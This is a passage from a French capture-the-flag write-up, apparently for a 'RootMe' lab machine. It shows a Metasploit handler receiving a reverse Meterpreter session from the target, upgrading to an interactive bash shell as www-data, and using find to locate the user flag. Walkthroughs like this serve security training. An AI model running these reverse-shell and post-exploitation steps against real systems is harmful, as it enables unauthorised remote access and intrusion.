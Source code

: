 ```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.8.152.244:4444 
```

![image-20210115001113591](img/image-20210115001113591.png)



Nous voila connecté à la machine distante!

```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.8.152.244:4444 
[*] Sending stage (39282 bytes) to 10.10.5.56
[*] Meterpreter session 1 opened (10.8.152.244:4444 -> 10.10.5.56:37884) at 2021-01-15 00:19:49 +0100
```



Lancer la commande *shell* sur mertepreter pour obtenir un shell, puis taper bash-i afin d'avoir un prompt plus décent.

```
meterpreter > shell
Process 1686 created.
Channel 0 created.
bash -i
bash: cannot set terminal process group (958): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/var/www/html/uploads$ 
```

Nous voilà dans le système avec l'utilisateur www-data,

Nous avons comme indice que le flag user ce trouve dans un fichier user.txt, utilisons find pour le trouver plus facilement!

> find / -name user.txt 2>/dev/null
>

```
www-data@rootme:/var/www/html/uploads$ find / -name user.txt 2>/dev/null
/var/www/user.txt
```
